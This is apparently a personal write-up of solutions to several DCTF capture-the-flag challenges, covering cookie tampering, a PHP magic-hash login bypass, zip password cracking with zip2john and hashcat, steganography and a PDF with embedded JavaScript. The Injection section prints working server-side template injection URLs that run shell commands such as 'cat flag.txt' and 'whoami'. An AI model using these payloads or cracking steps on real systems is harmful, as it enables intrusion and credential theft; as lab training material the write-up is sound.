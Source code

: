 ## Simple web 
>Time to warm up!
http://dctf1-chall-simple-web.westeurope.azurecontainer.io:8080

just changing the auth to 1

![](https://i.imgur.com/GHlPZkr.png)
![](https://i.imgur.com/QubDsrI.png)

> dctf{w3b_c4n_b3_fun_r1ght?}
--------------------------
## Injection 
>Our local pharmacy exposed admin login to the public, can you exploit it? http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/

i was hinted: ssti. so i tried the below payloads to see which one i got

![](https://i.imgur.com/UhpLFTq.png)
https://portswigger.net/research/server-side-template-injection

![](https://i.imgur.com/v0qz9et.png)
![](https://i.imgur.com/NxeYtqA.png)

1 for object, 414 for subprocess.Popen
>http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[414]

i tried this and it gave: **alice**
>http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/%7B%7B''.__class__.mro()[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()%7D%7D%7B%7Bconfig.__class__.__init__.__globals__['os'].popen('whoami').read()%7D%7D

but this was reading the security.py that i found by ls
>http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/%7B%7B''.__class__.mro()[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()%7D%7D%7B%7Bconfig.__class__.__init__.__globals__['os'].popen('cat%20lib/security.py').read()%7D%7D

![](https://i.imgur.com/ppGEbpY.png)

so i copied the python and ran it on my own
```
import base64
import sys

if(base64.b64encode(sys.argv[1].encode('ascii')).decode('ascii')[::-1].lstrip('=') == 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'):
	print(1);

print(base64.b64encode(sys.argv[1].encode('ascii')).decode('ascii')[::-1].lstrip('=') )
print((sys.argv[1].encode('ascii')).decode('ascii')[::-1].lstrip('=') )
```
and i understood that the string was first: removes = then reverse it 
![](https://i.imgur.com/pwpwuCV.png)

>dctf{4ll_us3r_1nput_1s_3v1l}
--------------------------
## This one is really basic
>The answer to life, the universe, and everything.

seemed like a very large base64 file which was only one line so i kept adding (base64 -d) and noticed that the file still looks like a base64
```
strings  cipher.txt | base64 -d | base64 -d | base64 -d | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d 
```
>dctf{Th1s_l00ks_4_lot_sm4ll3r_th4n_1t_d1d} 
--------------------------
## Dragon
>Hiding in plain sight.

opening it in stegsolve 
```
java -jar stegsolve.jar
```
![](https://i.imgur.com/hosxDuA.png)

> dctf{N0w_Y0u_s3e_m3}
--------------------------
## Very secure website 
http://hashmash.info
>Some students have built their most secure website ever. Can you spot their mistake?
http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/

http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/flag.txt
gives 403

![](https://i.imgur.com/jxFP8iR.png)

![](https://i.imgur.com/zNG11Vd.png)
![](https://i.imgur.com/TeX5xl7.png)

based on https://www.whitehatsec.com/blog/magic-hashes/
>with the “==” comparison operator in PHP, and if another hash in a database also starts with a “0e…” the comparison will evaluate to true so i used the below payload based on that website

![](https://i.imgur.com/XO1mEMv.png)
https://www.whitehatsec.com/blog/magic-hashes/

used username=admin and as the password
```
479763000
```

>dctf{It's_magic._I_ain't_gotta_explain_shit.}
--------------------------
## Leak Spin
>We have confident insider report that one of the flags was leaked online. Can you find it?
Hint: The organisers only control a limited amount of places on the internet, looks through those...

visited their website https://dragonsec.si/en and in the source code found a regex
![](https://i.imgur.com/y4yU9WH.png)
so i used to evaluate a string https://regexr.com/
![](https://i.imgur.com/i8Hve6x.png)

>flag{we_come_to_dctf}
--------------------------
## Strong password 
>Zip file with a password. I wonder what the password could be?
Hint: Don't use fcrackzip
```
zip2john strong_password.zip > strong.txt
john strong.txt
```
but cleaned the output file format should be ```$zip2$* *$/zip2$``` and one only

![](https://i.imgur.com/JT3Y5FK.png)

```
sudo hashcat -m 13600 strong.txt /usr/share/wordlists/rockyou.txt
```
![](https://i.imgur.com/bzmEgM6.png)

you can see the end of the hash pass: Bo38AkRcE600X8DbK3600
```
7za e strong_password.zip 
cat lorem_ipsum.txt| grep -i ctf  
```
>dctf{r0cKyoU_f0r_tHe_w1n}
--------------------------
## Don't let it run
>PDF documents can contain unusual objects within

to show me "display malformed PDF elements"
```
pdf-parser -v dragon.pdf
```
![](https://i.imgur.com/jAqoLso.png)
![](https://i.imgur.com/gnAY8w9.png)

javascript but in hex so decoded from hex

![](https://i.imgur.com/Ko8Xnxi.png)

>dctf{pdf_1nj3ct3d}


















